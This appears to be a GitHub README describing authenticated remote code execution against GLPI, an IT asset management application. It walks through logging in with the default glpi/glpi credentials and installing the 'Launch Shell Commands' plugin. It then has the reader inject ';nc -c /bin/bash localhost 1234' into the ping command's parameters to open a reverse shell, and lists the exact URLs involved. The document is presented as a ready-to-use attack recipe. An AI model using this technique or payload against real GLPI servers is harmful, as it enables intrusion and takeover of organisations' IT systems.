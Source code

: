 # GLPI-RCE-Authenticated
How to RCE as a glpi administrator

``
Gestionnaire Libre de Parc Informatique (GLPI) is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing.
``

https://github.com/glpi-project/glpi

## Requirements

You need to be super administrator of glpi to add the plugin and perform the rce.<br>The default login is **glpi / glpi**

## Exploitation 

The technique consists in using a plugin which allows to execute commands on the system like ping or tracert and to divert it towards the reverse shell for example.


Initially you must add a key "GLPI network" in the general parameters of glpi what gives the rights to add extensions, you have just to create an account for free on the site of glpi and to copy paste the key.

![](https://i.imgur.com/CuNnAFw.png)

![](https://i.imgur.com/o4HQRnH.png)

in the Marketplace : ``/glpi/front/marketplace.php``<br>
Add the plugin named "Launch Shell Commands"

![](https://i.imgur.com/HO9rTMo.png)

Edit the ping command page : ``/glpi/marketplace/shellcommands/front/shellcommand.form.php?id=1``

Enter a random string in the tag and in the parameters you can run anything as a command using a semicolon<br>
You can use this payload for reverse shell :
```sh 
;nc -c /bin/bash localhost 1234
```

![](https://i.imgur.com/0vuQnGF.png)

Add a ping command group : ``/glpi/marketplace/shellcommands/front/commandgroup.php``

![](https://i.imgur.com/CKQkOS2.png)

To finish to execute the payload: ``/glpi/marketplace/shellcommands/front/advanced_execution.php``<br>
Select the ping command group, a category and a device from the list (if you don't have one you can create one in Assets)

![](https://i.imgur.com/3ZnE7eJ.png)
![](https://i.imgur.com/zlns3aD.png)

